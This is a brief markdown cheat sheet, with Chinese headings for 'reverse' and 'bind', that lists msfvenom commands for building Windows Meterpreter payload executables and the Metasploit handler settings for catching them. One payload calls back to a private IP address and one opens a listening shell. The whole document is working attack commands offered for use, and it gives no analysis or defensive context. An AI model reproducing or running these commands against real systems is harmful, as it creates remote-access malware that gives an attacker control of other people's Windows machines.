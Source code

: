 

#### window

##### 反向

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.121 lport=5000 -f exe -o /root/payload.exe

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost 192.168.1.121 

set lport 5000

exploit
```



##### **正向**

```
msfvenom -p windows/meterpreter/bind_tcp lport=5000 -f exe -o /home/ywd/桌面/payload.exe

use exploit/multi/handler

set payload windows/meterpreter/bind_tcp

set rhost 192.168.22.128

set lport 5000

exploit
```

